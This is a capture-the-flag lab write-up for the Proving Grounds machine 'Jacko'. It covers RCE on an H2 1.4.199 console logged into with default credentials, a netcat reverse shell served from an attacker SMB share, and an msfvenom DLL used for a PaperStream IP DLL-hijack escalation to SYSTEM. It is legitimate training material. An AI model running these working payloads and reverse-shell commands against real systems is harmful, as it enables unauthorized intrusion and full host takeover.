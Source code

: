 ```yaml
---
layout: post
title: PG | Jacko
subtitle: A machine best paired with a nice cup of coffee.
thumbnail-img: /assets/img/OffSec.png
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 15:02 UTC
Nmap scan report for 192.168.191.66
Host is up (0.015s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8082/tcp  open  http          H2 database http console
|_http-title: H2 Console
9092/tcp  open  XmlIpcRegSvc?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-26T15:05:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 208.70 seconds
~~~

# Service Enumeration

## HTTP (TCP/80)

The target is hosting an Apache web server on port 80 that displays a guide on how to use a H2 Database Engine (Java and SQL)

## SMB (TCP/139, 445)

An SMB server is also running on the target, I attempted to connect via a NULL session however the attempt was denied
~~~shell
┌──(kali㉿kali)-[~/Desktop/Jacko]
└─$ smbclient -N -L //192.168.191.66                 
session setup failed: NT_STATUS_ACCESS_DENIED
~~~

## HTTP (TCP/8082)

Port 8082 is running the H2 Database console for remote management of the database software as shown below

![Jacko](/assets/img/JackoPG(1).png)

When clicking connect using the default loaded credentials (sa:) we are brought to the management console

![Jacko](/assets/img/JackoPG(2).png)

The left panel shows us our current user 'sa' has admin permissions and the current version is H2 1.4.199

![Jacko](/assets/img/JackoPG(3).png)

# Exploitation

I searched for exploits relating to the H2 Database version 1.4.199 and found this [exploit](https://www.exploit-db.com/exploits/49384) which allows remote code execution by:
1. Writing a native java library to the H2 servers disk using the H2 function 'CSVWRITE'
2. Loads the library using 'java.lang.System.load'
3. Commands can then be issued via calling 'JNIScriptEngine.eval' which is a java interpreter that evaluates and issues the scripts we enter

~~~shell
-- Write native library
SELECT CSVWRITE('C:\Windows\Temp\JNIScriptEngine.dll', CONCAT('SELECT NULL "', CHAR(0x4d),CHAR(0x5a),CHAR(0x90),CHAR(0x00),CHAR(0x03),CHAR(0x00),CHAR(0x00)...;))

-- Load native library
CREATE ALIAS IF NOT EXISTS System_load FOR "java.lang.System.load";
CALL System_load('C:\Windows\Temp\JNIScriptEngine.dll');

-- Evaluate script
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');
~~~

To get my initial foothold I first started a netcat listener on port 8082 on my attack machine

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8082
listening on [any] 8082 ...
~~~

I then created an SMB share (as SMB is running on the target) and placed nc.exe (netcat) in the share

~~~shell
┌──(kali㉿kali)-[~/Desktop/Jacko]
└─$ impacket-smbserver share /home/kali/Desktop/Jacko -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
~~~

I then ran my payload on the H2 console to connect to the share and execute nc.exe locally to create a remote connection to my netcat listener on port 8082

~~~shell
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.45.187/share/nc.exe -e cmd.exe 192.168.45.187 8082").getInputStream()).useDelimiter("\Z").next()');
~~~

I then recieved my initial foothold!

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8082
listening on [any] 8082 ...
connect to [192.168.45.187] from (UNKNOWN) [192.168.191.66] 49844
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\H2\service>
~~~

# Privilege Escalation

When navigating around the filesystem I found an application in Program Files (x86) named PaperStream IP, I then searched it up for exploits and found [this](https://www.exploit-db.com/exploits/49382) exploit which is a DLL Hijacking vulnerability in which we can inject a payload to perform privilege escalation. This exploit works on version 1.42

![Jacko](/assets/img/JackoPG(4).png)

I then searched through the softwares directories looking to find the version, and found a file under C:\Program Files (x86)\PaperStream IP\TWAIN>type readmeenu.rtf that stated the version number 1.42 as shown below

![Jacko](/assets/img/JackoPG(5).png)

I generated the DLL payload reverse shell as discussed in the exploit (PaperStreamIP is stored in the Program Files x86 directory so we will need to generate a 32 bit payload not 64 bit)

~~~shell
┌──(kali㉿kali)-[~/Desktop/Jacko]
└─$ msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=tun0 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
Saved as: shell.dll
~~~

I then transferred the payload via SMB to the target machine

~~~shell
C:\Users\tony>copy \\192.168.45.187\share\shell.dll
copy \\192.168.45.187\share\shell.dll
        1 file(s) copied.
~~~

I downloaded the exploit to my attack machine and edited the Payload variable to specify my reverse shell .dll

![Jacko](/assets/img/JackoPG(6).png)

I then started a netcat listener on port 4444, transferred the exploit via SMB and executed the exploit

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
~~~

~~~shell
C:\Users\tony>copy \\192.168.45.187\share\49382.ps1
copy \\192.168.45.187\share\49382.ps1
        1 file(s) copied.
~~~
~~~shell
C:\Users\tony>C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass C:\users\tony\49382.ps1
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass C:\users\tony\49382.ps1
Writable location found, copying payload to C:\JavaTemp\
Payload copied, triggering...
~~~

I then recieved the root (system) shell on my listener!

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.45.187] from (UNKNOWN) [192.168.191.66] 49909
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
~~~